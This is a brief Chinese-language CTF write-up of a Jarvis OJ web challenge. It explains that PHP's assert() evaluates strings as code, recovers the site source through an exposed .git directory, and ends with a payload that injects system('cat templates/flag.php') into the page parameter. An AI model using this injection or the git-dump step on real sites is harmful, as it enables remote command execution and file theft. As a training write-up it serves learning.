



assert()：

把字符串执行php代码。


列题讲解：

浙大ctf http://web.jarvisoj.com:32798/

使用sourceLeakHacker扫描发现存在git目录。



使用gitHacker下载文件：

```javascript
    GitHack.py http://web.jarvisoj.com:32798/.git/
```





下载网页源码，进入flag.php发现，没有flag。此时代码审计



发现存在assert()函数，推测是任意代码执行。

payload:

page='.system("cat templates/flag.php;").'